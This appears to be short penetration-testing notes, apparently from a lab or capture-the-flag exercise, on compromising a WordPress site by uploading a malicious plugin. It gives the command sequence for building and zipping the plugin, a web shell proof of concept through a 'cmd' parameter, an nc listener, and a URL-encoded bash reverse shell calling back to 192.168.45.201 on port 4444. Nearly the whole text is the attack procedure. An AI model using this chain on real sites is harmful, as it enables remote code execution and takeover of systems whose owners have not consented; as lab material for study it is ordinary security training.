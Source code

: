 Create the plugin from scratch:

mkdir malicious_shell_plugin/

cd malicious_shell_plugin/

sudo nano malicious-plugin.php

INSERT CODE: ...

sudo chmod +x malicious-plugin.php

zip -r shell_plugin.zip shell_plugin

Check if file is there

http://1337.codes/wp-content/plugins/shell_plugin/

Proof of concept:

http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=id

Setup a listener:

┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 4444

Pick a shell from https://www.revshells.com/

sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261

Make it beter with bash -c "COMMAND"

bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"

http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"
